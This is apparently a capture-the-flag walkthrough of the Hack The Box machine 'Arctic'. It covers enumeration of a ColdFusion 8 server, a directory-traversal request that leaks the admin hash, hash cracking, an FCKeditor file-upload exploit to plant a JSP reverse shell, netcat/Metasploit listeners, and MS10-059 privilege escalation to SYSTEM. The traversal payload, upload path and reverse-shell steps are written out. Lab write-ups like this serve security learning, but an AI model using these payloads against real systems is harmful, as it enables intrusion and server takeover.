 
### Index
1. Locating nmap NSE script 
2. Enumerating RPC
3. Adobe Cold Fusion FCKEditor File upload vulnerability. [CVE-2009-2265](https://www.exploit-db.com/exploits/50057)
4. Upgrading the NetCat Shell (Gained by executing the python exploit) to Meterpreter shell and then running local exploit suggester.
5. MS10-059: Chimichurri was used for Priv Esc.



Initial Enumeration (subdomain, vhosts, directories/files)

```
$ nmap -T4 --min-rate=1000 -p- -sC -sV -Pn 10.10.10.11 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 00:49 EDT
Nmap scan report for arctic.htb (10.10.10.11)

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Just because port 135 is open. Trying out RPC Enum
```
$ locate -r nse$ | grep msrpc  
/usr/share/nmap/scripts/msrpc-enum.nse

$ sudo nmap -p135 --script=msrpc-enum -sS -sC -sV 10.10.10.11
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
```

Upon access the site on port 8500, the CVE-2010-2861 Directory Traversal Vulnerability was present. I read the [PoC ](https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2010-2861/README.md) and found the backend admin password.
```
Request:
GET /CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en HTTP/1.1
Host: arctic.htb:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: CFID=200; CFTOKEN=84509656
Upgrade-Insecure-Requests: 1

Response:
<title>#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true</title>
```

using auxiliary/scanner/http/coldfusion_locale_traversal in msf
```

```

Trying to identify the hash as well
```
$>$hashid 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 

```

Cracking the above hash and got the admin password for Adobe Coldfusion
```
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday  
```

After digging into Admin Panel, I did not find any place to host my reverse Shell. I was able to create archives, backups, connectors but nothing was helping me to host my shell. Under the system settings in Admin panel, i notice that the user 'tolis' is mention and the adobe cold fusion is deployed as user 'tolis'. I googled ColdFusion RCE and found this [Exploit-DB](https://www.exploit-db.com/exploits/50057) exploit which is CVE-2009-2265. The vulnerability exist in FCKeditor and the path to upload files is unrestricted. However, I was not able to locate where is the FCKeditor from the Admin panel. I have the exploit. Felt like I'm just a noob that don't know what the exploit is doing. But Reading the [GitHub Repo](https://github.com/0xConstant/CVE-2009-2265 ) make little bit things clear in my brain. 

After reading [This Article](https://codewatch.org/2013/12/07/manually-penetrating-the-fckedit-vulnerability-cve-2009-2265/) Things were little bit clear that during my earlier enumeration, I forgot to take a look at the following path when I open http://arctic.htb:8500/ 
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
```

Now the Exploit-DB exploit that I have used earlier, make sense that my JSP shell is being uploaded to the following location.
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00
```

I have the path present on my target and I use the exploit to capture the Tolis user flag. 

# Shell Upgrading Notes

My python exploit code has the following line. 
```
os.system(f'nc -nlvp {lport}')
```

I comment out the above line in the python exploit and use the following msf module to start the netcat listener so that I can capture the meterpreter shell instead of the netcat shell.
```
msf>use exploit/multi/handler
msf>set LHOST 10.10.16.5
msf>set LPORT 4444
msf>run
[*] Started reverse TCP handler on 10.10.16.5:4444 

[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.11:55411) at 2024-08-06 00:15:27 -0400

Now use CTRL+Z to throw the shell in the background and use 'local_exploit_suggester'. For this machine it was not helpful. Still i tried.
```

# Privilege Escalation 

### Initial Enum using winPEAS.bat

UAC is Enabled. but according to HackTricks, I need a GUI access
```
 [+] UAC Settings                                                                                                                                                       
   [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on                                                                            
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access           
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System                                                                            
    EnableLUA    REG_DWORD    0x1
```

I tried mimikatz.exe and I did not have any good luck there. Reading the Machine Info on Hack The Box, i notice that it was mention that "privilege escalation is achieved using the MS10-059 exploit. " [This Exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled) was used to obtained the Administrator Shell and root flag.

```
$ nc -lvnp 8000                                                                      
listening on [any] 8000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 55575
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Documents>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>more root.txt
more root.txt
fcb***********************
```

